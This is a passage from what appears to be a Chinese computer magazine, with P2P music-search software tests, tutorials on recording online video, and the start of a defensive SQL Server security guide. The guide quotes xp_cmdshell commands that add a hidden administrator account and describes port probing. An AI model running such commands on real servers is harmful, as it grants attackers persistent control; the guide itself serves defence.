| 音乐听厅 | http://www.nowok.net |
| MP3搜刮网 | http://www.sogua.com |
| 星星音乐谷 | http://music.feifa.com |
| KuGoo | http://www.kugoo.com |
| 九天音乐 | http://www.9sky.com |
| 中国广播在线 | http://www.fm-china.com |
| 天籁之音 | http://www.13139.com |
| 雅虎音乐 | http://music.yahoo.com.cn |
| 中国音乐在线 | http://www.mtvtop.net |
| 搜狗音乐 | http://d.sogou.com |
| 天籁村 | http://www.6621.com |
| qq163流行音乐 | http://www.qq163.com |
| 娱乐鱼音乐网 | http://www.yuleyu.com |
| 好听音乐网 | http://www.haoting.com |
| 要听音乐网 | http://www.1ting.com |
| 新浪乐库 | http://mu.sina.cn/ |
| 酷客音乐网 | http://www.cookee.com/ |

## 六、终极实力PK：搜索结果和有效下载测试

为了进一步测试软件对新信息尤其是新歌的搜索和捕获能力，下面选择百度站点（http://mp3.baidu.com）的两个重要排行榜：“新歌TOP100”和“歌曲TOP500”。选择新歌的目的是为了检测软件对新信息、新音乐的捕获能力；选择经典歌曲的目的是为了检测软件的库存资源收集情况。

同时，为了加强测试的可信度，选择了“新歌TOP100”中排名前两位和“歌曲TOP500”中排名前两位的歌曲作为搜索对象。结合当天百度音乐排名情况，两首新歌分别是：水木年华的《借我一生》，袁泉的《拥抱的问号》；两首经典歌曲分别是：周杰伦的《菊花台》和信乐团的《死了都要爱》。测试环境为北京地区教育网内，测试时间为下午15:00~17:00左右。现将实际搜索的结果列表如下。

表2 音乐搜索能力测试表

| 软件 / 歌曲 | 借我一生 (水木年华) | 拥抱的问号 (袁泉) | 菊花台 (周杰伦) | 死了都要爱 (信乐团) |
| --- | --- | --- | --- | --- |
| 酷狗(KuGoo) | 5/5 | 6/6 | 85 | 112 |
| P8 | 2 | 1 | 27 | 14 |
| 酷我音乐盒 | 0 | 0 | 4 | 4 |
| 百宝 | 4 | 3 | 131 | 134 |
| Vagaa | 0 | 8 | 151 | 115 |
| POCO | 1 | 0 | 1 | 1 |

就好像某些腐败工程一样，有些软件的搜索结果很多，面子上似乎很好看。但是，下载链接根本就不能使用，这对用户来说无异于“竹篮打水一场空”，最后仍然是无用功。为了避免这种情况，下面以本年度十分红火的周杰伦歌曲“菊花台”为例，看看各款软件歌曲下载链接的有效率及下载的即时速度。测试结果如表3所示。

表3 搜索结果的有效下载能力测试表

| 软件名 | 返回总数 | 有效下载数 | 下载率 | 最高速度(KB/s) |
| --- | --- | --- | --- | --- |
| 酷狗(KuGoo) | 112 | 112 | 100% | 128 |
| P8 | 27 | 8(渐增) | 29%(渐增) | 28 |
| 酷我音乐盒 | 4 | 4 | 100% | 58 |
| 百宝 | 131 | 32 | 25% | 1 |
| Vagaa | 151 | 132 | 87.5% | 10 |
| POCO | 1 | 0 | 0 | 0 |

从上面的数据看，KuGoo表现十分突出，依然占据了十分明显的优势；P8数字娱乐传播平台在搜索能力方面也具有一定的优势。而相对而言，Vagaa、酷我音乐盒等软件的有效下载率都很高，“死链”现象比较少见。不过，总体软件下载速度依然处于一个比较低的水平，这和P2P平台所宣称的“高速下载”还有不少的距离。上述几款都是具有数万首音乐资源搜索能力的专业级音乐搜索软件。根据对比结果来看，“酷狗Kugoo”在综合能力方面比其它软件更胜一筹，不仅下载速度快，而且下载后的管理也做得不错。P8数字娱乐传播平台则大有后来居上之势。

通过几款软件的对比，我们也看到了P2P技术的广阔发展前景。同时也看到了数字音乐下载服务正呈现出逐渐规范化的趋势。有分析认为，到2010年时数字音乐市场总值将达149亿美元；而传统发布渠道的音乐市场规模到2010年时将下滑到196亿美元。研究机构甚至预计，今年的数字音乐市场收入将占所有音乐唱片市场总收入的12%，到2010年时这一比例将上升到40%左右。可以预见，一旦失去速度上的优势，传统音乐下载模式将会越来越感受到P2P技术所带来的巨大压力。在解决版权等问题后，P2P技术的开放性架构、资源数量的无限扩张等优点也将逐步凸显出来，并将逐渐创造出越来越庞大的音乐下载平台。

## “随心所欲”驾驶网络视频 ——网络视频观看、录制两不误

文 / TMG zxl

相信众网虫们都有过网络视频的观看经历，无论是P2P软件的在线直播，还是在酷溜网等视频网站观看心仪的节目，宽带网络让我们受益良多。那么大家是否有过笔者一样的无奈，错过了央视五套的体育节目求助网络却难于寻找；PPLive正在直播火箭比赛而我们却在上课；看到经典的视频想珍藏起来。种种难题，相信你通览本文后一定能找到答案。笔者会把诸如网络视频录制、网络视频收藏、网络视频点播等网络TV的新应用一一呈现于大家面前，希望大家能在当中获得快乐，让生活丰富起来。话归正途，让我们一起开始吧！

## 一、P2P我做主——P2P点播软件PPStream

PPStream相信大家一定不会陌生，它可谓现在网络间最红火的P2P软件之一，拥有稳定的传输速度，可观数量的用户支持，囊括了电影、电视剧、动漫、体育直播、财经要闻等分类全面的视频播放。在新版本中，PPStream更是为我们带来了“P2P视频点播”的全新概念，无疑为网络视频软件注入了一针强心剂。在这一部分我就结合其视频点播功能为大家简要介绍这款软件。

### 1. PPStream的特点

- (1) 完全免费——即下即用
- (2) 播放流畅——P2P传承经典，人越挤越迅速
- (3) 随点随看 时间自由掌握——点播功能，全球首创
- (4) 内容丰富——随心所欲，应有尽有
- (5) 保护硬盘——内存直接读写，不伤硬盘
- (6) 简单操作——会用电脑，就会用ppstream

### 2. 下载安装

PPStream下载地址：http://www.newhua.com/soft/40670.htm

下载后，轻松完成安装，可以看到软件独具风格的安装界面，在安装即将结束的窗口，PPStream会提示你对一些初始选项进行设置（如图1）。

这里出现一个比较有新意的功能——TCP/IP限制补丁，不要误会，它是专门对付有限制的宽带网络的，笔者感觉的这个功能很实用，建议大家开启。另外你可以选择使用PPS自主研发的播放器以及采用一体化界面，这样可以更为方便的使用软件而且让用户界面美观、易用。



使用PPS自主研发的播放器以及采用一体化界面，这样可以更为方便的使用软件而且让用户界面美观、易用。

### 3.基本使用指南

PPStream界面以黑色为主色调，节目频道列表居左，中间是播放窗口，而最右边则是推荐节目。窗口的左上角可以切换直播与点播模式，另外在这里用户能轻松完成视频搜索(如图2)。



- （1）节目播放
你可以轻松实现PPStream的播放功能，以经典动画片《机器猫》为例，只需要在左侧节目列表的级联菜单中单击“动漫卡通”，随后双击“机器猫”，播放器经过几秒钟缓冲后即开始播放，同时在节目名称后面会显示目前节目的收视率，相信你一定明白，越多人看就会越顺畅哦！
- （2）播放器设置
PPStream使用的播放器还算中规中矩，在屏幕下方可以调节音量，控制节目的暂停与继续。另外在进度条的一侧，你可以看到三个并排的闪灯，它们的颜色变换可以为用户指示当前节目的连接、传输状态。
- （3）界面控制
在窗口顶部分置有功能全面的菜单，用户可以在这里改变窗口的大小、启动画中画、调整画面比例、界面布局等界面属性选项，细心的PPStream还为我们添加了老板键功能，如此一来，办公室的生活也变得丰富多彩。

### 4.用PPStream点播节目

#### （1）社区注册

下面我们来看一下PPStream的点播功能，单击窗口左上角的“点播”按钮，节目列表会自动更换为当前可点播的目录。同前，双击一个你想点播的节目名称，系统会提示你尚未登录社区，这是需要说明的：要想实现点播功能，用户首先要完成PPStream社区注册（如图3）单击“是”后来到注册页面，完成注册。通过注册，你可以在PPStream社区里发帖灌水，对影片进行评价，你的身份也会逐步上升为“热情观众”。目前软件处于测试阶段，因此只有“热情观众”以上的级别才可使用点播功能。



#### （2）播放节目

成功登录后，选择你喜欢的节目双击鼠标，经过很短时间的缓冲后节目开始播放。可以感受到PPStream节目打开速度很快，看一下进程也只占用了10MB左右的系统内存。直播界面下灰色的进度条此时可用，你可以随意拖动改变节目的进度了。实际使用过程中，笔者感觉播放流畅清晰，极少出现停滞和中断现象。在界面右侧，你可以对点播的节目进行影评，如果是用户喜欢的节目可以给出好的评价，也不枉费网友千辛万苦共享自己的宝贝视频了。看过了PPStream的点播节目，你一定也不想舍弃每时每刻都在直播的体育赛事，鱼与熊掌可以兼得！你可以在菜单中启用PPStream的“画中画”功能，将直播节目嵌入到窗口中，一心二用即可。

## 二、专业的才是最好的，P2P TV Recorder 1.72 ——P2P 网络视频录制

看过了新概念的点播软件，笔者猜想肯定有很大一部分人钟情于直播节目，对于点播这玩意不“感冒”。但是，实际生活中，常常会因为我们工作繁忙无法终日端坐于电脑前等待P2P供应商播放，而很多节目错过收看却甚为可惜。同时，由于P2P的传输原理和提供商对自己软件的垄断保护，很多节目的实际地址是不容易看到的，因此笔者为大家请来了专业的帮手P2P TV Recorder（又名：PPRecorder）。

### 1. 软件特点

PPRecorder是目前独一无二可记录PPLive、PPStream、Coolstreaming、SopCast等多种P2P网络视频的软件，它可以根据你的需求将视频保存在本地硬盘上。此外PPRecorder可以监视磁盘使用情况，有效保护你的硬盘。下面请跟随笔者一同记录属于自己的P2P视频吧！

### 2.下载安装

PPRecorder下载地址：http://www.newhua.com/soft/52605.htm

大家可以登陆上述链接下载PPRecorder，安装界面可以选择为简体中文，过程简单，相信你可以轻松完成。目前国内专业下载站点给出的均是该软件的英文共享版本，你可以免费试用30天，有兴趣的用户可以下载PPRecorder的汉化补丁，方便使用。

### 3.基本使用指南

双击PPRecorder图标进入，忽略注册环节后可以看到它清新、稳重的操作界面（如图4）。单击工具栏的“options”按钮，可以对PPRecorder进行简单的设置。设置窗口含有两个标签页，你可以设定保存视频的本地目录，磁盘使用监视的幅度以及下载任务的最大数目和单个任务的最大链接限制。需要提醒用户的是最好选用剩余空间较大的本地硬盘，这样既可以保证下载的空间，又能保护你的硬盘少受伤害。



在窗口的左侧，树形结构列出了目前主流的P2P软件，双击其中一个即可看到你过去下载或保存的频道，如果你想再次下载，只需在地址上双击鼠标。如果你的P2P软件尚未列出，你可以单击工具栏的“Add P2P TV”按钮，在这里添加新的树形结构或新的频道。一切就绪后，你就可以进行下载了。

打开一款P2P视频软件，将播放器更改为“Windows Media Player”，这样播放频道出现在右侧的“播放列表”中，右击你想下载的节目名称，单击“属性”命令，在弹出的对话框中你可以看到当前频道的URL（例如：http://127.0.0.1:18988/ps/1178200537/1017/机器猫.asf），选中地址右击鼠标选择“复制”，随后将地址粘贴到PPRecorder的URL文本框中 (如图5)，按下回车键开始下载。下载过程中你可以随时运用文本框上方的“stop”“delete”等按钮对下载进行更改，如果你单击删除按钮，系统会提示你是否要将下载的文件一并删除，极为方便。

在“Program Scheduler”界面下，PPRecorder被划分为上下两个网状表格，用户可以对频道下载的时间和日期进行设定，定时下载文件。怎么样，你是不是感觉很方便呢？

## 三、活用你的PPLive ——KMPlayer、PPLive双剑合璧录制节目

两种技巧介绍完毕，厌倦麻烦的用户肯定责怪笔者提供的录制方法有些繁琐。那么本节我就向诸位推荐一条PPLive节目录制的捷径。你可以选择将KMPlayer和PPLive结合使用，实现节目的录制、保存。

PPLive大家已经再熟悉不过，笔者不多赘述。简要介绍一下KMPlayer，KMPlayer是一款来自韩国的全能播放软件，简称KMP，是韩国人姜勇禾历时五年设计的。其功能强大，内涵多种播放效果，底层调用Windows Media Player的内核DirectShow。外部同时支持临时挂接Windows下的全部解码器，同时也支持Winamp中的各种输入、音效、视觉效果插件……同时，值得称道的是KMP具备节目的截取功能，可以通过它实现网络视频文件的录制工作。

KMPlayer下载地址：http://www.onlinedown.net/soft/57112.htm

实现两款软件的双剑合璧，主要分两个步骤：

### 1.用KMPlayer播放PPLive视频

首先安装PPLive程序，运行后最小化程序到系统托盘，右击托盘图标，在弹出的系统菜单中单击“参数设置”命令。

在弹出的窗口中，单击“播放设置”选项卡，在播放器路径中更改播放器为“KMPlayer”，完成后单击“确定”退出。

如此一来，PPLive的外部播放器就变更为KMPlayer了，接下来观看节目，经过一段时间的缓冲之后，PPLive会自动打开KMPlayer进行播放。如果没有实现，可以在想观看的节目名称上面右击鼠标，选择“在默认的播放器中播放”命令就可以启动KMPlayer。

### 2.录制自己心仪的视频

打开喜欢的网络电视节目，在播放的屏幕中右击鼠标，选择“捕获”，在子菜单中单击“捕获为AVI文件”。此时会弹出对话框，用户可以对输出视频的位置进行更改。另外，在窗口下你可以选择保存视频或音频，亦或二者兼有。



对于输出品质，KMPlayer为我们提供了多种选择，当然，这是一个在占用内存和画面质量之间的博弈 (如图6)。



设置就绪后，单击“开始”按钮，软件就开始录制工作。录制的文件会以AVI的格式存储到硬盘，这也是DVD所支持的格式，你可以将录制的视频刻录成视频光盘封存。

### 3. KMPlayer的补充

本节开头笔者已讲，KMPlayer是一款功能强大的播放器，使用它播放视频过程中有很多技巧。例如，你可以用它截取视频的图片；轻松更改视频文件的显示比例；可以将视频进行再次拉伸缩放；可以对视频进行渲染；可以更改视频解码器等等。在播放画面下，右击鼠标，选择“控制面板”命令，在调出的控制面板中，你可以随意改变视频文件的均衡、字幕、视频、音频等多个项目众多选项设置，如图7。让你享受到DIY放映的乐趣。快让KMPlayer加入到你的网络生活当中吧。



## 四、流媒体本地保存 ——影音传送带 Net Transport

### 1.什么叫流媒体

所谓流媒体是指采用流式传输的方式在Internet播放的媒体格式。流式传输方式是将整个A/V及3D等多媒体文件经过特殊的压缩方式分成一个个压缩包，由视频服务器向用户计算机连续、实时传送。在采用流式传输方式的系统中，用户不必像采用下载方式那样等到整个文件全部下载完毕，而是只需经过几秒或几十秒的启动延时即可在用户端播放。

### 2.基本功能

- （1）多用户支持——易于上手的多用户系统，每位用户拥有自己的信息设置。
- （2）站点探索器——安装后可以自动搜索站点，自由查看FTP的目录。
- （3）全面的代理服务器支持——支持HTTP和SOCKS4/5等多种代理服务器，用户更可以分线程、分任务设置。
- （4）防火墙穿透——能够跨越主流的公司防火墙等限制性局域网，特别适于上班一族和限制局域网用户。
- （5）边下边看——支持边下载边播放文件。
- （6）更方便地添加任务——自动识别浏览器的URL点击。
- （7）多语言支持——多国语言随时切换，可以本地翻译。
- （8）支持流媒体的多线程——有效地缩短下载时间。
- （9）多线程、多任务影音下载——每个任务最多10个线程，支持最多10个任务同时进行，上限数目可以更改。
- （10）加密技术——安全保护你的FTP登录信息。
- （11）文件管理器——软件自带强大的文件管理器，让你下得再多也井井有条。
- （12）计划管理器——不仅仅是文件管理。
- （13）支持RTSP协议下载。
- （14）自动关机和自动下线。
- （15）自动更新。

如何？知道笔者推荐你使用专业传送工具的原因了吧！那么就让我们简单看一下怎样使用传送带进行视频下载吧！

### 3.传送视频文件

安装完成后桌面上会自动创建两个图标，分别为Net Transport的“FTP传送带”与“网络传送带”，我们先来看一下“网络传送带”。单击图标进入，如图8，我们可以看到熟悉的界面环境，它和迅雷等知名下载工具有异曲同工之妙。

在主界面下，出现了大家用惯的悬浮窗口，用户可以随时将需下载的视频链接拖拽入窗口下载。登陆一个在线视频网站，单击窗口上方的“URL嗅探器”标签，会出现探测窗口，单击“开始”按钮，Net Transport会自动为你侦测现在用户打开的视频链接地址。搜索完成后，选中你希望下载的文件，单击“下载”按钮即可。如果用户要导入本地的数据文件下载，可以单击菜单栏的“文件”菜单选择“导入”命令就可以实现。另外Net Transport为大家提供了BT文件的制作功能，用户在下载完成后，可以自行制作“Torrent”文件。

Net Transport的FTP传送带功能也是不容小觑的，其最大亮点是操作简便，用户只需在主界面下输入FTP的服务器地址、用户名、密码，就可以登录FTP站点。界面操作有收藏站点、本地、FTP列表三个区域，你可以选定本地地址之后，双击FTP上的文件进行下载。Net Transport的加密传送技术可以保证你的文件安全传输到硬盘。



### 4.关于Net Transport的补充说明

- （1）防止Net Transport影响观看
用户打开很多在线视频网页时，Net Transport的嗅探器有时会自动侦测并开始下载。这样很可能导致视频无法正常播放。点击“工具”菜单，选择“选项”命令后，在“监视”选项卡下，将“下载确认”前面的复选框的对勾选中即可。今后侦测到的地址，软件会提示用户确认后下载。
- （2）多线程下载设置
“添加新的下载任务”时，单击右下角的“其它设置”按钮，在“代理”选项卡下，点选“多代理，每个线程使用不同的代理”。线程默认采用的都是“直接连接”，实际应用中我们可以将通过验证的高速网站设置为“高速”，实现更好的下载速度。程序号后面的“直接连接”，单击后会出现代理服务器的下拉列表，你可以选择不同的代理服务器并勾选。设置完成之后，速度会有一定幅度的提高。

好了，如果你想打造自己的视频宝库，那就快点开动自己的“传送带”吧。

## 五、懒人自有高招 ——直接使用“屏幕录像专家7.0”

有些用户害怕上述方法启动较繁琐，会错过好的节目，希望找到一种可以随时启动，随看随录的软件。对于P2P视频、在线视频等可以大小通吃。笔者这就为大家推荐一款屏幕录像软件——屏幕录像专家。

这款软件是一款专业的集屏幕录像、视频制作于一身的多面手。使用它你可以将屏幕上的视频甚至是鼠标操作过程全部录制下来，生成标准的AVI文件。该软件采用直接录制方式，生成文件体积小，连续录制时间长，且支持后期编辑处理，是您制作教学、演示动画的好帮手。

由于篇幅所限，关于屏幕录像专家的使用方法在此不再赘述，感兴趣的用户可以自行查阅相关资料。

# 超级应用方案特辑·网络

录制成自播放的 EXE 动画、AVI 动画、FLASH 动画、ASF 动画等等，适合制作教学视频，当然也可以被我们拿来录制网络视频啦！软件采用直接录制方式或者先录制，再生成的方式录制屏幕录像，容易上手，操作简便。
屏幕录像专家 7.0 下载地址：http://www.newhua.com/soft/3442.htm

启动软件后，看到屏幕录像专家的界面非常简洁，屏幕映像占用了软件界面的大部分区域，菜单栏、工具按钮选项框一览无遗，用户可以轻松完成软件的诸项设置（如图 9）。接下来，笔者为你简要说明一下屏幕录像专家的特色功能。

### 1.做好准备

首先做好录制的准备工作，录制生成的文件名、存储目录都可以在主界面下搞定。比较重要的是可以自定义录像的频率，会影响录像的质量和流畅度。“录制目标”选项卡可以帮助我们进行区域性的屏幕录制；后面的“声音”选项卡可以改变声音的采样频率，更改后可以捕捉更细致的声音；最后一个标签中你可以自行设置“快捷键”，更好地控制软件。另外屏幕的色彩设置需进行适当修改，根据生成 AVI 的颜色格式设置为对应的 256 色和真彩 16 位色。如果你要生成 AVI 视频文件，还需要在下拉列表中选定压缩的格式标准。

### 2.一键搞定

系统默认的录制快捷键是 F2 键，当你欣赏网络视频时，只需启动屏幕录像专家，遇到自己想要录制的片断，按下键盘上的 F2 键，软件会自动录制并保存在指定目录下。以后随时翻出视频，想看就看。有的用户想制作成 Flash 格式，只需将输出格式更改为 EXE 即可。对于比较大的视频文件，录制后的播放时间可能与你在 P2P 和网站上看到的有一定出入，这属于正常现象，跟用户设定的采样频率有关。

### 3.后期制作

如果你录制了多段节目，在完成录制后可以运用屏幕录像专家进行合并，它支持 Flash、AVI 的合成，相互之间的转换以及录像文件的加密，这些均可以在菜单栏的“工具”菜单下实现。当然，屏幕录像专家也提供了播放功能，用户可以设置“循环播放”或者播放其中的任意部分。
对于一个大小不到 10MB 的录像软件来说，屏幕录像专家的功能算得上中规中矩，甚至有很多出彩的地方，你不仅可以用它录制网络视频，更可以制作自己需要的视频教程、截取屏幕照片等等。

## 六、献给钟情电视的朋友 ——乐酷网络电视录像机 1.2.0007 正式版

作为一名体育爱好者，相信中央五套的《天下足球》《NBA 赛场》等节目你是每期必看的。生活中往往出现我们因为自己的时间与电视节目冲突，错过自己喜爱的电视节目，而某些电视节目网络上是不转播的，更不要谈录制下来了。面临现在家家户户已经淘汰录像机的现状，我们如何保存好看的电视节目随时观看呢？下载乐酷吧！
乐酷 1.2.0007 官方下载地址：http://www.recool.tv/download/recool-jre.exe

### 1.乐酷的特色

乐酷也是一款基于 P2P 技术的网络视频软件，它的特色在于内置了央视多套频道以及国内许多地方台频道的链接，软件自身内置了录像功能，你可以选择固定时段的固定栏目进行录制，这样你就可以工作、节目两不误了。目前的版本支持每星期预定录制 20 个节目。

### 2.乐酷的使用

首次运行乐酷，需要进行用户注册，相信这是为了社区建设设置的。进入主界面后，看到了乐酷可算本次介绍中最具亲和力的界面，清新可爱（如图 10）。

在主界面的“录制节目”标签下，单击选择频道下拉菜单，我们可以看到乐酷的频道几乎涵盖了全国各地的地方频道，其覆盖能力可见一斑。界面最上方的选项卡分别是：

- (1) 浏览器——乐酷主界面采用浏览器的方式与官方主页实现动态链接，用户不需要登陆主页，就可以在软件下操作乐酷预约节目录制、搜索节目。
- (2) 正在播放——乐酷默认采用了 Real Player 播放器，你可以在此控制播放，改变窗口。
- (3) 节目管理——乐酷为你提供了功能强大的节目管理器，你可以在此管理本地视频文件，建立自己的播放列表，有了它，用户可以躺在床上随心所欲地观看啦！
- (4) 配置面板——可以完成乐酷的相关设置，包括下载路径、是否自动登录、是否自动续传、软件语言等等。
- (5) 在线帮助——乐酷在这里为大家提供了简单的使用帮助，便于用户更好地使用软件。

乐酷的录像功能操作简便，在图 10 显示的浏览器界面下，选择“录制节目”，在下拉列表中选好频道，随后在出现的节目列表中，找到自己希望录制的节目，单击勾选其前面的复选框，单击左侧的“录制”按钮就可以了。乐酷为大家详细列明了节目的时间和名称，遗憾的是每周你只可以预约 20 个节目的录制，不过笔者认为还是勉强够用的。
综述：到此为止，笔者前后结合六款软件向你介绍了网络视频的点播、录制、下载，它们各具特色，应用领域各有不同。时间仓促，功能介绍有不当之处，望你批评指正。谨以此文，帮助奋战在网络上的辛勤虫虫们，驾驭网络视频，打造自己的网络视频乐园！

# 网络数据库安全应用完全攻略

文 / 彭文波

现在，基于 B/S（浏览器/服务器）模式的网络应用越来越多，数据库安全问题也日渐突出。根据我国 GB17859-1999《计算机信息系统安全保护等级划分准则》中的描述：数据库安全就是保证数据库信息的保密性、完整性和可用性。但是，在实际应用中，网络管理员常常会忽视服务器端的安全设置，而把安全问题交给应用程序开发者处理。毫无疑问，这会产生一系列的问题，因为应用程序的开发者不可能完全弄清楚系统内部的安全机制，而只能依赖他们的应用程序来保证数据的安全性。网络时代，攻击者的主要目标就是数据库，特别是目前应用十分广泛的 SQL Server、MySQL 等数据库，它已经成为并继续成为最成功的突破目标之一。因此，本文首先介绍 SQL Server、MySQL 等网络数据库所面临的典型威胁，然后从操作系统防护、数据加密和网络安全传输、DBMS 安全机制、数据库 SQL 注入防范等方面进行安全应用的讲解。

## 一、网络数据库应用中存在的主要威胁

网络环境下，数据库系统的安全很大程度上要依赖于网络数据库管理系统。如果网络数据库管理系统安全机制非常强大，则网络数据库系统的安全性能就好。总体来看，网络数据库系统的安全框架可以划分为三个层次：网络系统层次、操作系统层次、数据库管理系统层次。这三个层次防范的重要性也逐层加强，从外到内、由表及里保证数据的安全。

### 1.网络环境下的系统漏洞威胁

首先，在操作系统下，网络数据库系统都是以文件形式进行管理的。因此，入侵者通过网络可以直接利用操作系统的漏洞窃取数据库文件，或者直接利用 OS 工具非法伪造、篡改数据库文件内容，而且一般网络数据库用户难以察觉。其次，从数据库系统的角度来看，许多 DBA 很容易忽略检查严重的安全隐患和不正确的配置，而且数据库厂商一般没有提供专门的审计接口，即使是已有的功能也不太完整。因此，在网络环境下，需要有相应的工具能够扫描出系统软件所存在的问题，帮助管理员找出并修复系统存在的问题。在使用十分广泛的 SQL Server 数据库中，有两种比较典型的攻击。

第一种是无需认证的攻击，主要包括存在于 UDP 监控器端口上的缓冲区溢出、利用 SQL Ping 等工具向 SQL 监控器端口攻击、通过网络嗅探等方式获取密码等。另一种是需要认证的攻击，主要包括利用 xp_cmdshell stored procedure（扩展存储过程）读取文件系统和注册表，通过临时存储过程或 SQL Agent 绕过访问控制机制等。而且，有的程序员习惯使用初始密码为空的 SA 账号访问数据库，这样，黑客也可以通过客户端进行数据库远程连接，借助扩展存储过程新建一个管理员级别的 Administrators 组的用户：

```
xp_cmdshell "net user id password /add"
xp_cmdshell "net localgroup Administrators id /add"
```

对于数据库来说，这无疑于一场灾难。

### 2.网络环境下的数据传输威胁

数据库的保密性指保护数据库中的数据不被泄露和未授权的获取。SQL Server 2000 使用 Tabular Data Stream 协议来进行网络数据交换，如果不加密的话，所有的网络传输都是明文的，包括密码、数据库内容等等，这很可能被第三方人员截取、篡改。因此，当用户或应用程序需要访问 SQL Server 时，就要发生一个相互交换凭证的过程。这些信息要尽可能进行加密处理，以防止有人窥探网络上的通信，并使用窥探到的信息假冒合法的用户进行信任欺骗。

### 3.网络环境下的数据库访问控制

数据库的可用性是确保数据库中的数据不因人为的和自然的原因对授权用户不可用。通常情况下，对数据库访问的控制只能通过用户控制即用户名/密码来进行。在开放的网络环境中，一方面，数据库要给网络上的用户提供尽可能方便的服务；另一方面，数据库还要防范来自黑客的各种攻击，这也增加了密码保护管理的难度，导致网络数据库的可用性受到威胁。分析上述矛盾，我们可以看到，数据访问通常可以看作以下两个步骤的过程：认证（authentication）和授权（authorization）。前者解决的问题是“我是谁”，这是试图控制 SQL Server 内部数据库的人或应用程序的身份认证的过程；而后者回答的是“允许我干什么”的问题。

### 4.网络数据库的 SQL 注入威胁

现在，许多站点都采用了 ASP、PHP、JSP 等脚本语言配合网络数据库的形式。SQL 注入也被越来越多地被用来入侵网络数据库，并造成了很大的威胁。由于部分 WEB 程序员对入侵的方法一知半解，导致在过滤的时候漏掉某些字符，造成安全漏洞；或者是草木皆兵，把一些合法的用户请求都拒之门外。

数据库的一致性是确保数据库中的数据满足实体完整性、参照完整性和用户定义完整性要求。如果不对网页中用户提交的数据进行合法性判断和过滤，恶意的浏览者就可以通过提交精心构造的数据库查询代码，进行“SQL 注入”攻击。这就需要从应用程序的代码安全性着手，提高数据库系统的安全性。

除了依赖自身内部的安全机制外，数据库系统安全还与从业人员素质等因素息息相关。

## 二、以数据库安全为核心的防范策略

考虑到网络环境下的具体应用，我们按照上述分析中存在的主要问题，按照从外到内的思路，以数据库安全为核心，实施有针对性的探讨。

### 1.针对数据库的网络和操作系统的防护

从技术角度讲，网络系统层次的安全防范技术有很多种，可以将目前比较成熟的防火墙技术、网络安全扫描技术、网络入侵检测技术等应用于数据库安全管理中。另外，操作系统也为数据库系统提供了安全平台保护，包括：密码策略、账户锁定策略、审核策略、IP 安全策略、用户权利指派、加密数据的恢复代理等安全策略。实际应用中，必须实施以数据库安全为核心的防范策略。

- （1）使用安全的文件系统、账号和密码策略
① 尽量使用 NTFS 文件系统，只将最有限、最合适的 NTFS 权限分配给用户。
② 安全的账号和密码十分重要，并养成定期修改密码的好习惯，同时 DBA 应该定期检查账号。

**小技巧：**

下面的方法检查用户密码是否为空：

```
Select name,Password from syslogins where password is null
```

还可以检查对存储过程和扩展存储过程的执行权，提防不必要的执行权限扩散：

```
Select sysobjects.name From sysobjects, sysprotects Where sysprotects.uid = 0 AND xtype IN ('X','P') AND sysobjects.id = sysprotects.id
```

- （2）定期备份相关数据
SQL Server 中需要备份的数据库主要有 master 数据库、msdb 数据库、用户自定义数据库等。在实际操作中可综合采用以下策略：
① 进行周期性备份。
② 间隔性地增量备份。
③ 在每两次增量备份之间进行事务日志的备份。

- （3）管理扩展存储过程
SQL Server 提供了较多的系统存储过程来实现数据的完整性，但实际应用中，能用到的系统存储过程较少，因此可删除一些不必要的扩展存储过程。例如可用 sp_dropextendedproc 删除 xp_cmdshell 扩展存储过程，命令如下：

```
use master
sp_dropextendedproc 'xp_cmdshell'
```

另外，在 SQL Server 安装过程中，会自动安装一些范例数据库，如 “pub” 和 “Northwind” 等，这些数据库的表结构是公开的，易为黑客所用，务必删除。

- （4）加强数据库日志的记录
右键单击数据库系统的 “属性”，选择 “安全性”，在 “审核” 级别中选择 “全部”，这样在数据库系统和操作系统日志里面，就详细记录了所有账号的登录事件，如图1所示。

- （5）学会分析日志
一般来说，数据库服务器上都安装有防火墙。日志功能是防火墙功能最常见的功能之一，它用以监控通信行为和完善安全策略，检查安全漏洞和错误配置，并对入侵者起到一定的威慑作用。

防火墙日志可以说是一个大 “拼盘”，其中有系统收到的各种不安全信息的时间、类型等等，通过分析这些日志，可以发现曾经发生过或正在进行的系统入侵行为。

防火墙日志并不复杂，但要看懂它还是需要了解一些基础概念（如端口、协议等），尽管每种防火墙日志都不一样，但在记录方式上大同小异，主要包括：时间、允许或拦截、通讯类型、源 IP 地址、源端口、目标地址和目标端口等。

**小技巧：**

在数据库服务器安全防范中，对以下端口需要重点盯防：

- ① 21 (ftp)：表示攻击者试图打开 “anonymous” ftp 服务器。攻击者进入这些服务器中带有可读写的目录，并将其作为传送私有程序的节点。
- ② 23 (Telnet)：表示攻击者试图搜索远程登陆 UNIX 的服务。大多数情况下入侵者扫描这一端口是为了找到机器运行的操作系统。此外使用其它破解技术，入侵者会找到密码。
- ③ 53 (DNS)：表示攻击者试图进行区域传递 (TCP)，欺骗 DNS (UDP) 或隐藏其它通讯。因此防火墙常常过滤或记录53端口。需要注意的是你常会看到53端口作为UDP源端口。不稳定的防火墙通常允许这种通讯并假设这是对 DNS 查询的回复。使用这种方法可穿透防火墙。
- ④ 79 (finger)：可以用于查询操作系统，探测已知的缓冲区溢出错误，获得用户信息，回应从自己机器到其它机器 finger 扫描。
- ⑤ 139 (NetBIOS 文件和打印共享)：通过这个端口进入的连接试图获得 NetBIOS/SMB 服务。这个协议被用于 Windows “文件和打印机共享”，而在 Internet 上共享自己的硬盘是一个很容易被攻击者利用的漏洞。
- ⑥ 161 (SNMP)：这也是入侵者经常探测的端口，SNMP 允许远程管理设备。所有配置和运行信息都储存在数据库中，通过 SNMP 可以获得这些信息。如果将它们暴露于 Internet，则有可能被别人作为缺省的密码访问系统。

除了上述安全配置，还要及时安装微软发布的最新操作系统补丁程序，经常使用漏洞扫描工具检查漏洞，并及时采取防范措施。当然，更主要的还是要加强内部的安全控制和管理员的安全培训，以减少被攻击的机会。

### 2.数据加密处理和网络安全传输

要保护网络数据库应用系统及其数据，必须首先解决数据在网络上的安全传输问题。不同的应用，对数据安全传输的要求不尽相同，但有两个必须保证的基本要求：
- 保密性要求，要能防止非授权用户或实体获取并使用数据。
- 完整性要求，确保数据的一致性，防止数据被非授权建立、修改和破坏，即保证在数据传输过程中不被篡改，并能对传输的数据进行校验，以检查是否有传输错误。

可以从以下几方面来进行安全防范：

- （1）加强对 TCP/IP 端口的保护
选择隐藏 SQL Server 实例和修改 TCP/IP 端口。具体方法为：
